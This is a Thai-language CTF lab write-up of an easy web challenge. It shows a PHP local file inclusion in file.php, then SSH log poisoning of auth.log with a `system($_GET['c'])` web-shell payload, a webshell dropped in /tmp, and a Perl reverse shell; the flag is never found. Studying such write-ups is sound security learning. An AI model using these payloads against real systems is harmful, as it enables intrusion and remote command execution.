## ข้อ Log Christmas

> 🏆 **Challenge**:   
> 💪 **Difficulty**:  🟢 EASY   
> 🎯 **Category**: Web Application Security



### เริ่มต้นการวิเคราะห์...
การสแกน path ด้วย Dirsearch พบ path สำคัญ: **/public** 🔍




จากการตรวจสอบใน path **/public** ต่อ พบไฟล์ที่น่าสนใจ: **file.php** 🎯



ลอง FUZZ parameter ด้วยเครื่องมือ x8 ปรากฏว่าเจอ parameter **file** ซึ่งอาจเสี่ยงต่อ **Local File Inclusion (LFI)** เอ๊ะใช่หรือไม่?! 😱




## ขั้นตอนการทดสอบเริ่มต้น

ทดลองใส่ค่า parameter **file=/etc/passwd** 
พบว่าสามารถอ่านเนื้อหาไฟล์ได้! 🕵️‍♂️


เมื่อดูโค้ดของไฟล์ **file.php** พบว่าโค้ดเพียงรับ parameter `file` และใช้งาน function **include** แบบตรงไปตรงมา 🤔




หลังวิเคราะห์เพิ่มเติม โจทย์น่าจะเกี่ยวข้องกับ **Log Files**  ซึ่งพบไฟล์น่าสนใจ: **/var/log/auth.log** แต่! Server ตอบกลับมาว่า: `Memory ไม่พอ` 🧠💥


**การแก้ไขปัญหาเบื้องต้น:**
ลอง **restart VM** และสำเร็จ! กลับมาอ่านไฟล์ **/var/log/auth.log** ได้ 🥳

## ขั้นตอนการโจมตี

จากไฟล์ /var/log/auth.log พบว่าเป็น log ของ SSH แนวทางต่อไปคือการทดลอง **SSH Log Poisoning**:
1. ใช้คำสั่ง `ssh '<?php system($_GET['c']); ?>'@192.168.1.129`
2. แต่ติดปัญหา Kali ไม่รองรับคำสั่งนี้! 😩



จึงต้องเปลี่ยนมาใช้ **Python code** เชื่อมต่อ SSH แทน โดยส่งค่า username เป็น:
`<?php system($_GET['c']); ?>`
เป้าหมายคือ: Inject Code ผ่านช่องโหว่ LFI ใน **file.php**



ดำเนินการใส่ค่า parameter **file=/var/log/auth.log** และ **c=command ที่ต้องการ** เช่น:

```
/file.php?file=/var/log/auth.log&c=ls
```
แต่ปัญหาใหญ่คือ /var/log/auth.log โหลดช้ามาก เนื่องจากมีขนาดใหญ่ขึ้นเรื่อย ๆ! 📂🐢

เพื่อแก้ปัญหานี้ จึงทำการสร้างไฟล์ webshell อันใหม่คือ **c.php** ไปวางไว้ใน directory **/tmp** แทนเพื่อความสะดวก ⚙️

ลองใช้คำสั่ง เช่น `ls`, `find` เพื่อตามหา Flag แต่ **ไม่พบไฟล์เป้าหมายใด ๆ** 🕳️😓



จึงเปลี่ยนไปทดลอง Reverse Shell ผ่าน Perl สามารถ Shell ได้สำเร็จ 🎉 แต่ยังคงตามหา Flag ไม่เจอ 😢





**บทสรุป:**
แม้จะพลาดไป แต่ทุกขั้นตอนยังถือเป็นบทเรียนอันล้ำค่า! 🌟

---
<a href="./"><<กลับหน้าหลัก</a>
